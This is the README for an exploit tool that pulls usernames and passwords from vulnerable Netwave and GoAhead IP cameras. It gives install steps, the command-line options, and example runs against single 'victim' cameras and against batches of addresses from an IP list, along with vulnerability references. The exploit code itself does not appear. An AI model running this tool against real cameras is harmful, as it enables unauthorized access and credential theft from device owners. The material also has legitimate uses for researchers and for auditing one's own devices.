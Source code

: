 # Expcamera
Exploit Netwave and GoAhead IP Camera  
Expcamera is a tool for exploiting vulnerable Netwave and GoAhead IP camera to get the username and password.  
**Attention:this tool is just for educational!**  
**Please comply with local laws and regulations!**  

# Installation
	git clone https://github.com/vanpersiexp/expcamera.git  
	pip3 install -r related.txt  
# Usage
	python3 exploit_camera.py -h  

	usage: exploit_camera.py [-h] [-b {1,2}] [-o OUTPUTFILE] [-T TIMEOUT]  
        	                 [-t TASKS] [-q | -v] [-i IP | -I INPUTFILE]  

	Exploit IP Camera. Please use it just in educational purpose!  

	optional arguments:  
	  -h, --help     show this help message and exit  
	  -b {1,2}       Choose the brand of IP Camera. 1 represents Netwave,2  
	                 represents GoAhead.  
	  -o OUTPUTFILE  Output into path you input.The default path in dir /tmp  
	  -T TIMEOUT     The default timout for netwave is 300s.  
	  -t TASKS       Run TASKS number of connects in parallel,default is 10  
	  -q             Quiet mode.  
	  -v             Show more informations.  
	  -i IP          The camera's ip and port.Example: 192.168.1.100:80  
	  -I INPUTFILE   The camera's ip:port address file. The file's format like  
	                 this 192.168.1.100:80 in a line.  
# Example
1.Victim IP Camera's brand is Netwave.The ip is 192.168.1.100 and port is 80  
	python3 exploit_camera.py -b 1 -i 192.168.1.100:80 -v  
2.Victim IP Camera's brand is GoAhead.The iplist.txt is given.   
The iplist.txt show as below:  
192.168.1.10:80  
192.168.1.100:81  
192.168.1.200:8080  

	python3 exploit_camera.py -b 2 -I iplist.txt -v
	
# Contacts
pu.xiaorvp@gmail.com  

# References
http://www.cnvd.org.cn/flaw/show/CNVD-2017-01037  
http://cn.0day.today/exploit/26889  
https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html  
